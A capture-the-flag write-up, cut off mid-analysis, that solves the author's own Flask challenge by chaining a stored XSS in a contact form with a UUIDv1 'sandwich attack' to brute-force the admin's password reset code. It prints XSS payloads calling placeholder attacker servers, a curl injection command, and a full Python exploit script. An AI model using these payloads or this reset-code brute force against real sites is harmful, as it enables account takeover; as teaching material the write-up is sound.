I recently uploaded a web exploitation challenge on github. Here is the writeup for that challenge. First, I would recommend that you try the challenge yourself: https://github.com/auk0x01/sandwich

## Analyzing the source code

First, we take a look at the files we have in hand. 

Let's look at `entrypoint.sh` file first.

```bash
#!/bin/sh

# Setting environment variables
export ADMIN_PASSWORD=$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 40) 
export SECRET_KEY=$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 40)
export CLOCK_SEQUENCE=$(cat /dev/urandom | tr -cd "0-9" | head -c 40)

# Setting up database
python3 database_setup.py

# Starting the application
python3 app.py
```

We see random values being assigned to three environment variables: `ADMIN_PASSWORD`, `SECRET_KEY`, `CLOCK_SEQUENCE`. Then it runs the database setup and main application.

Let's see `database_setup.py` file.

```python
from app import app, db, User
import os

with app.app_context():
    db.create_all()
    admin = User('admin', 'admin@sandwich', os.environ['ADMIN_PASSWORD'])
    db.session.add(admin)
    db.session.commit()
```

This file is creating a database with an admin user. Setting its password as the value of `ADMIN_PASSWORD` environment variable.

Before taking a look at the application code, let's first dynamically analyze the application.

On index page, we have a login form. Trying SQL injection don't work.



There is also a registration form on server. We can register a user successfully.



Let's login with our registered user.



Hmmm, it seems that the application is still under development and there is no functionality in the user dashboard except that *Reset Password* section. Clicking on that, we get a popup with some instructions.



On main page, there was *Contact* page. We can post contact queries there. Maybe our queries are being sent to administrators.



Now, let's take a look at the application source code.

```python
from flask import Flask, request, render_template, redirect, session
from flask_sqlalchemy import SQLAlchemy
from playwright.sync_api import sync_playwright
import bcrypt, uuid, time, os

ADMIN_PASSWORD = os.environ['ADMIN_PASSWORD']
CLOCK_SEQUENCE = int(os.environ['CLOCK_SEQUENCE'])
app = Flask(__name__)
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SECRET_KEY'] = os.environ['SECRET_KEY']
db = SQLAlchemy(app)

class User(db.Model):
    uid = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(100), nullable=False, unique=True)
    email = db.Column(db.String(100), nullable=False)
    password = db.Column(db.String(100), nullable=False)
    reset_code = db.Column(db.String(50), nullable=True, unique=True)

    def __init__(self, username, email, password):
        self.username = username
        self.email = email
        self.password = bcrypt.hashpw(password.encode('utf-8'), bcrypt.gensalt()).decode('utf-8')
    
    def check_password(self,password):
        return bcrypt.checkpw(password.encode('utf-8'), self.password.encode('utf-8'))

class Contact(db.Model):
    cid = db.Column(db.Integer, primary_key=True)
    name = db.Column(db.String(100), nullable=False)
    email = db.Column(db.String(100), nullable=False)
    desc = db.Column(db.String(500), nullable=False)

    def __init__(self, name, email, desc):
        self.name = name
        self.email = email
        self.desc = desc

@app.route('/', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        try:
            username = request.form['username']
            password = request.form['password']
            if len(username)<1 or len(password)<1:
                return render_template('login.html', msg='No field should contain an empty value!')
            user = User.query.filter_by(username=username).first()
            if user and user.check_password(password):
                session['username'] = user.username
                session['reset_code'] = user.reset_code
                return redirect('/dashboard')
            else:
                return render_template('login.html', msg='Invalid credentials!')
        except:
            return render_template('login.html', msg='An Error occured while processing your request!')
    return render_template('login.html')

@app.route('/register', methods=['GET', 'POST'])
def register():    
    if request.method == 'POST':
        try:
            username = request.form['username']
            email = request.form['email']
            password = request.form['password']
            if len(username)<1 or len(email)<1 or len(password)<1:
                return render_template('register.html', msg='No field should contain an empty value!')
            if User.query.filter_by(username=username).first():
                return render_template('register.html', msg='This username already exists!')
            user = User(username, email, password)
            db.session.add(user)
            db.session.commit()
            return render_template('register.html', msg='Account created!')
        except:
            return render_template('register.html', msg='An Error occured while processing your request!')
    return render_template('register.html')

@app.route('/contact', methods=['GET', 'POST'])
def contact():
    if request.method == 'POST':
        try:
            name = request.form['name']
            email = request.form['email']
            desc = request.form['msg']
            if len(name)<1 or len(email)<1 or len(desc)<1:
                return render_template('contact.html', msg='No field should contain an empty value!')
            contact_query = Contact(name, email, desc)
            db.session.add(contact_query)
            db.session.commit()
            bot_visit()
            return render_template('contact.html', msg='Your message was sent to the administrators. They will review and get back to you shortly!')
        except:
            return render_template('contact.html', msg='An Error occured while processing your request!')
    return render_template('contact.html')

@app.route('/dashboard')
def dashboard():
    try:
        if session['username']=='admin':
            user = User.query.filter_by(username=session['username']).first()
            contact_data = Contact.query.all()
            return render_template('admindashboard.html', user=user, contact_data=contact_data)
        else:
            user = User.query.filter_by(username=session['username']).first()
            return render_template('userdashboard.html', user=user)
    except:
        return redirect('/')

@app.route('/reset/password/<reset_code>', methods=['GET', 'POST'])
def reset_password(reset_code):
    if request.method == 'POST':
        try:
            password = request.form['password']
            user = User.query.filter_by(reset_code=reset_code).first()
            if not user:
                return 'Reset code is incorrect'
            user.password = bcrypt.hashpw(password.encode('utf-8'), bcrypt.gensalt()).decode('utf-8')
            db.session.commit()
            return 'Password changed!'
        except:
            return redirect('/')
    return render_template('reset.html', reset_code=reset_code)

@app.route('/resetcode')
def resetcode():
    try:
        if session['username']:
            reset_code = str(uuid.uuid1(clock_seq=CLOCK_SEQUENCE))
            user = User.query.filter_by(username=session['username']).first()
            user.reset_code = reset_code
            db.session.commit()
            session['reset_code'] = user.reset_code
            # TODO: Add code to send reset code to users through email or other means.
            return redirect('/dashboard')
        return redirect('/')
    except:
        return redirect('/')

@app.route('/logout')
def logout():
    session.pop('username', None)
    return redirect('/')

@app.route('/protected', methods=['POST'])
def protected():
    try:
        if session['username']=='admin':
            if request.method == 'POST':
                try:
                    password = request.form['password']
                    user = User.query.filter_by(username='admin').first()
                    if user and user.check_password(password):
                        flag = ''
                        with open('./flag.txt') as f:
                            flag += f.readline()
                        return flag
                    return 'Wrong password!'
                except:
                    return 'An Error occurred'
        return redirect('/dashboard')
    except:
        return redirect('/')
    
def bot_visit():
    playwright = sync_playwright().start()
    browser = playwright.chromium.launch()
    context = browser.new_context()
    page = context.new_page()
    page.goto('http://127.0.0.1:1337/')
    page.fill('input[name="username"]', 'admin')
    page.fill('input[name="password"]', ADMIN_PASSWORD)
    page.click('.btn')
    time.sleep(0.1)
    context.close()
    browser.close()
    playwright.stop()


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

The application has these endpoints:
```
/
/register
/contact
/dashboard
/reset/password/<reset_code>
/resetcode
/logout
/protected
```

`/` endpoint is for login. `/register` is for registration. 

Let's look at the `/contact` endpoint.

```python
@app.route('/contact', methods=['GET', 'POST'])
def contact():
    if request.method == 'POST':
        try:
            name = request.form['name']
            email = request.form['email']
            desc = request.form['msg']
            if len(name)<1 or len(email)<1 or len(desc)<1:
                return render_template('contact.html', msg='No field should contain an empty value!')
            contact_query = Contact(name, email, desc)
            db.session.add(contact_query)
            db.session.commit()
            bot_visit()
            return render_template('contact.html', msg='Your message was sent to the administrators. They will review and get back to you shortly!')
        except:
            return render_template('contact.html', msg='An Error occured while processing your request!')
    return render_template('contact.html')
```

It is getting the form data with fields *name*, *email* and *desc* and storing them in the database. After storing them, it also calls a function named `bot_visit()`. The code of this function is this:

```python
def bot_visit():
    playwright = sync_playwright().start()
    browser = playwright.chromium.launch()
    context = browser.new_context()
    page = context.new_page()
    page.goto('http://127.0.0.1:1337/')
    page.fill('input[name="username"]', 'admin')
    page.fill('input[name="password"]', ADMIN_PASSWORD)
    page.click('.btn')
    time.sleep(0.1)
    context.close()
    browser.close()
    playwright.stop()
```

Alright, so this function is basically emulating the behaviour of a normal admin user who will open a browser, visit the application, login with the credentials and then stay on admin dashboard for a little time to check the queries he had received.

Looking at the code `/dashboard` endpoint.

```python
@app.route('/dashboard')
def dashboard():
    try:
        if session['username']=='admin':
            user = User.query.filter_by(username=session['username']).first()
            contact_data = Contact.query.all()
            return render_template('admindashboard.html', user=user, contact_data=contact_data)
        else:
            user = User.query.filter_by(username=session['username']).first()
            return render_template('userdashboard.html', user=user)
    except:
        return redirect('/')
```

If the user is not admin, it simply loads the template `userdashboard.html` which simply prints welcome message with the username. If the user is admin, then it loads the template `admindashboard.html`, but now we see that it is also passing *contact_data* variable as keyword argument. *contact_data* variable contains all contact data which users submit through contact form. Looking at `admindashboard.html` file:

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Admin Dashboard</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="{{ url_for('static', filename='css/bootstrap.min.css') }}">
  <script src="{{ url_for('static', filename='js/bootstrap.bundle.min.js') }}"></script>
</head>
<body>
  <nav class="navbar navbar-expand-lg navbar-dark bg-dark fixed-top">
    <div class="container">
        <div class="collapse navbar-collapse">
            <ul class="navbar-nav text-uppercase ms-auto py-4 py-lg-0">
                <li class="nav-item"><a class="nav-link" href="/dashboard">Dashboard</a></li>
                <li class="nav-item"><a class="nav-link" href="/resetcode" onclick="emailalert()">Reset Password</a></li>
                <li class="nav-item"><a class="nav-link" href="/logout">Logout</a></li>
            </ul>
        </div>
    </div>
  </nav>
  <br><br><br><br><br><br><br>
  
  <div class="container">
    <h2>Welcome back, {{ user.username }}</h2>
    <a href="/logout" class="btn btn-dark rounded-0">Logout</a>
    <br><br><br><br><br>
    <h2>Contact Queries</h2>
    <div>
      <table class="table">
        <thead class="thead-dark">
          <tr>
            <th>ID</th>
            <th>Name</th>
            <th>Email</th>
            <th>Message</th>
          </tr>
        </thead>
        <tbody>
          
          <tr>
            <td>{{data.cid}}</td>
            <td>{{data.name}}</td>
            <td>{{data.email}}</td>
            <td>{{data.desc|safe}}</td> <!-- We will support HTML description too so enabling it -->
          </tr>
          
        </tbody>
      </table>
    </div>
  </div>
  
  <footer class="text-center text-lg-start fixed-bottom" style="background-color: #212529; color: #ffffff8c;">
        <div class="text-center p-3">
            Copyright © 2024
        </div>
  </footer>
</body>
<script>
  function emailalert(){
    alert("An email has been sent to you with reset instructions!");
  }
</script>
</html>
```

We can see that *desc* field from the form data is vulnerable to XSS. *safe* filter in jinja2 marks the string as safe and allows HTML. We can see a comment as well saying that developers intend to accept HTML in description. Nice.

Now, let's look at `/resetcode` and `/reset/password/<reset_code>` endpoint.

```python
@app.route('/reset/password/<reset_code>', methods=['GET', 'POST'])
def reset_password(reset_code):
    if request.method == 'POST':
        try:
            password = request.form['password']
            user = User.query.filter_by(reset_code=reset_code).first()
            if not user:
                return 'Reset code is incorrect'
            user.password = bcrypt.hashpw(password.encode('utf-8'), bcrypt.gensalt()).decode('utf-8')
            db.session.commit()
            return 'Password changed!'
        except:
            return redirect('/')
    return render_template('reset.html', reset_code=reset_code)

@app.route('/resetcode')
def resetcode():
    try:
        if session['username']:
            reset_code = str(uuid.uuid1(clock_seq=CLOCK_SEQUENCE))
            user = User.query.filter_by(username=session['username']).first()
            user.reset_code = reset_code
            db.session.commit()
            session['reset_code'] = user.reset_code
            # TODO: Add code to send reset code to users through email or other means.
            return redirect('/dashboard')
        return redirect('/')
    except:
        return redirect('/')
```

`/resetcode` endpoint will generate a reset code for user based on UUIDv1. It assigns this reset code to currently logged-in user. Note that it also stores the generated reset code in the session of user, Interesting.

`/reset/password/<reset_code>` simply just accepts a reset code in URL. We will then be presented a form to change password. After entering password, application checks if any user in database have this reset code. If the reset code exists, the password of the user who have this reset code will be updated.

## Finding the vulnerability

Now, that we have a basic idea of how the application functions, let's discuss important things we have discovered till now. Our endgoal is to somehow change the password of `admin` user. For changing that, we will need his reset code.

Right now, we have no way to get reset code of `admin` user. Do you remember, we discovered that all our contact queries were actually being showed in the dashboard of administrator? Let's confirm the XSS first.

Let's enter a basic payload which will try to reach our server.

```html
'"><script>fetch('<SERVER_ADDRESS>')</script>
```

When we enter this payload and submit our contact query. We do not get any request on our server, why? When we look at the html code of `/contact`, we see the reason behind this.



When we submit our contact query, this `submit()` function is being called. This function first sanitizes the contents of message input box and then send a POST request with all three values (name, email and message) to `/contact` endpoint.

Developers made this function to ensure no one sends malicious HTML through their contact form, but there is a obvious flaw here: The sanitization is only being done on client-side and not on server-side. Meaning, if we directly send POST request to the server, then the contents of message field will be stored as it is. Let's quickly confirm this by sending this curl command.

```bash
curl -X POST http://127.0.0.1:1337/contact -H "Content-type: application/x-www-form-urlencoded" -d "name=test&email=test@test.com&msg='\"><script>fetch('<YOUR_SERVER>')</script>"
```

We get a request on our server after sending this curl request which means that our javascript is indeed being executed in admin dashboard.

Great, so now we can just steal admin cookies and takeover his account? The answer is No, because Flask's session cookies by default are set to be Http-Only, meaning that we can not access session cookies through Javascript.

There is another authenticated endpoint `/resetcode` which generates reset code for the user. What if we exploit XSS vulnerability to send request to `/resetcode` endpoint through admin account? This way, a reset code will be generated for `admin` user. But even if we are successful in generating reset code for that account, how will we get that reset code ?

We know that the reset code will also be present in session cookies as well but we can't access session cookies as they have HttpOnly flag set.

Previously, we saw that the application is generating UUIDv1 for reset code. After searching on google, we came to know that UUIDv1 is not safe and has a known attack called Sandwich attack. 

Read more about Sandwich attack here: https://book.hacktricks.xyz/pentesting-web/uuid-insecurities#sandwich-attack

All UUIDs of this version are incremental with time if they are generated on same machine. Meaning, if we have a UUID generated on time A and have another UUID generated on time B on the same machine, then we can generate all potential UUIDs from time A to time B.

So if we register a user and get 2 reset codes for him, one before malicious post request on `/contact` and one after it, we can be sure that the reset code for *admin* user will be present in between the 2 UUIDs we generated for our user.

How can we launch this sandwich attack in our case?
1) Make a new user.
2) Get 1st reset code for our user.
3) Submit a malicious contact query to trigger reset code for *admin* user.
4) Get 2nd reset code for our user.
5) Generate all UUIDs between our first and second reset code.
6) Launch a brute force attack on `/reset/password/<reset_code>` endpoint with all generated UUIDs to change the password of *admin* user.

## Exploitation (!)

First, let's make a new user, get 1st reset code for that user, then send a malicious POST request on `/contact` endpoint to trigger reset code for *admin* and then get a 2nd reset code for our user.

```python
import requests, base64, json, os

IP = '<CHALLENGE_SERVER>'
PORT = '1337'

# Creating new user
requests.post('http://'+IP+':'+PORT+'/register', data='username=test&email=test@test.com&password=123', headers={'Content-type':'application/x-www-form-urlencoded'})

# Login with new user and trigger the reset code
session = requests.Session()
session.post('http://'+IP+':'+PORT+'/', data='username=test&password=123', headers={'Content-type':'application/x-www-form-urlencoded'})
session.get('http://'+IP+':'+PORT+'/resetcode')
cookie = session.cookies.get('session')
rc1 = json.loads(base64.b64decode(cookie[0:cookie.index('.')]+'==').decode('utf-8'))['reset_code']

# Now sending our XSS payload to trigger reset code for admin user 
requests.post('http://'+IP+':'+PORT+'/contact', data='name=123&email=a@a.com&msg=<script>fetch(\'http://127.0.0.1:1337/resetcode\')</script>', headers={'Content-type':'application/x-www-form-urlencoded'})

# Again fetching new reset code for our user
session.get('http://'+IP+':'+PORT+'/resetcode')
cookie = session.cookies.get('session')
rc2 = json.loads(base64.b64decode(cookie[0:cookie.index('.')]+'==').decode('utf-8'))['reset_code']

print("[+] First reset code: " + rc1)
print("[+] Second reset code: " + rc2)
```

Let's run this script



This script printed 2 UUIDs for user `test` and since we triggered reset code for *admin* between these 2 UUIDs as well, admin's reset code should also be present between these 2 UUIDs.

Now, we will use a sandwich attack exploit written in ruby language to generate all possible UUIDs between these two.

Exploit Link: https://raw.githubusercontent.com/Lupin-Holmes/sandwich/refs/heads/main/sandwich.rb

This script accepts 2 UUIDs as arguments and an optional argument for output file with `-o` flag.



As we can see, this script generated around 8.6 million UUIDs and stored them in `uuids.txt` file. The reset code for our *admin* user must also be in this file.

Now, all we have to do is brute force all these UUIDs to change password of *admin* user. We can do this by making a POST request on `/reset/password/<reset_code>` endpoint and check the number of words in the response.

Take a look at the code of this endpoint again

```python
@app.route('/reset/password/<reset_code>', methods=['GET', 'POST'])
def reset_password(reset_code):
    if request.method == 'POST':
        try:
            password = request.form['password']
            user = User.query.filter_by(reset_code=reset_code).first()
            if not user:
                return 'Reset code is incorrect'
            user.password = bcrypt.hashpw(password.encode('utf-8'), bcrypt.gensalt()).decode('utf-8')
            db.session.commit()
            return 'Password changed!'
        except:
            return redirect('/')
    return render_template('reset.html', reset_code=reset_code)
```

If the password has successfully been changed, it will return a message `Password changed!` which is composed of 2 words so we can filter all our responses for 2 words.

Let's launch our brute force attack with *ffuf* tool. We are sending data "password=1" to change *admin* password to "1". We also gave 1000 threads to ffuf tool to make the exploit faster. `-mw 2` is for showing only those entries which returned 2 words in the response.



After launching the brute force, we see that our exploit is sending around 400 requests/second and the total number of UUIDs generated is around 8.6 million. At this rate, it will take around 5.9 hours for our exploit to try all UUIDs in the list which is a very long duration. **The challenge is pretty much solved at this point, the only problem is that our current exploit will take a lot of time to complete (maybe 5-6 hours)**. We need to minimize this time. Remember we also got a Note from the company in the challenge description saying.

**NOTE: If exploit takes a lot of time, try to find ways how you can minimize it by analyzing the pattern.**

Hmm, let's see where is the admin's UUID usually present in the generated UUIDs list. For this, download challenge files locally and modify the `/resetcode` endpoint a bit. Let's just print the resetcode on our terminals as well when we get a request. 



After this, just run the server locally with `sudo ./build-docker.sh`.

When we launch our previous python exploit, our server gets these requests and we see 3 requests on `/resetcode` endpoint which makes sense since 2 requests were sent from `test` user and one from `admin` user.

